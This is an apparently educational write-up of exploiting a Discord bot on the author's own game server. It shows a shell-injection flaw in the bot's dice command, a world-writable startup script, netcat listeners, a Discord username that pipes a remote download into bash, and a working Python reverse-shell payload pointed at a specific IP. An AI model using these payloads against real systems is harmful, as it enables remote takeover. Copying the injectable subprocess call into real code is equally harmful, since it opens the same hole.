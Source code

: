 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files





## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.





### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  <---------
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.






## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.





## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

#### Server process 1
```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
#### Server process 2
```
clear
nc -lvnp 8081
```
In the response.txt file there is the payload that the attacker wants to execute.




## Exploit
The reason I did not inject the entire payload directly through the username is due to the 32-character limit imposed on usernames (including spaces).
Instead, I set up a remote listener to serve the full payload.
The exploit consists of injecting a command via the username that instructs the bot to fetch and execute code from a remote response.txt file.
The username I used to achieve this was:
```
;curl ip-attacker:8080 | bash;
```




## Execution

#### 1)Reverse Shell

To obtain a `reverse shell`, I wrote the following content in `response.txt`:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
In order to serve the malicious payload and receive the reverse shell connection, I set up two listener processes on my machine by running the server processes code.

#### 3)Username
Due to the vulnerability in the bot’s input handling, I modified my Discord username to include a shell injection payload.
The username was set to:
`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, I simply interacted with the bot by sending the command:
`!dice`



## Post-Exploitation
Once i obtained a reberse shell, i had access to all the files of user-a, included the file server_start.sh that i could modify.


